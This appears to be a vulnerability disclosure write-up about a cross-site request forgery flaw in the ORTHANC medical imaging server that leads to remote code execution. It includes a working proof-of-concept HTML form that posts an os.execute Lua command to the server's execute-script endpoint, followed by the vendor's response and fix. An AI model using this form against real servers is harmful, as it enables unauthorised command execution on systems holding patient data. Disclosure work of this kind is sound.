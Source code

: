 # CSRF with remote code execution in ORTHANC server

ORTHANC has official online [demo](https://demo.orthanc-server.com/app/explorer.html)

## Introduction
Insecure ORTHANC api provides the following methods:
![Orthanc API](./data/orthanc_api.png)

One of them (`execute-script`) executes Lua commands on the server:

![Example of executing Lua-command](./data/execute_query_example.jpg)


## CSRF

ORTHANC server provides authentication mechanisms. It doesn’t implement any CSRF attack prevention methods. It allows a remote attackers to execute the API endpoints via CSRF attack.

### STEPS TO REPRODUCE
1. Log in to the web application using a web browser.
2. Create an html page containing the following code:
```
<html>
  <body>
    <form action="http://localhost:8042/tools/execute-script" method="POST" enctype="text/plain">
      <input type="hidden" name="cmd" value="'mkdir /tmp/testCSRF';os.execute(cmd)"/>
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

3. Open this html page in the web browser. 
4. The action (mkdir /tmp/testCSRF) will be executed. You can verify that by checking the existence of /tmp/testCSRF directory on the server.

## Conclusion

The vendor was [informed](./data/Advisory_ORTHANC_CSRF.pdf), and we received the answer:

about insecure API endpoints:
```
Since Orthanc 1.5.7, a modification has been made to the Orthanc source code in order to disallow the URI "/tools/execute-script" by default, and the user will have to explicitly set the configuration option "ExecuteLuaEnabled" to "true" if she wishes to access this URI:
https://bitbucket.org/sjodogne/orthanc/commits/f07352e0375ca3fcd1b4ff974be6d7cc8f82f92c

This feature will be part of to-be-release Orthanc 1.5.8.
```

about CSRF attack prevention:
```
As now written in the Orthanc FAQ, "In particular, you must create a higher-level application so as to properly deal with CSRF attacks: Indeed, as explained in the introduction, Orthanc is a microservice that is designed to be used within a secured environment."

https://book.orthanc-server.com/faq/security.html
```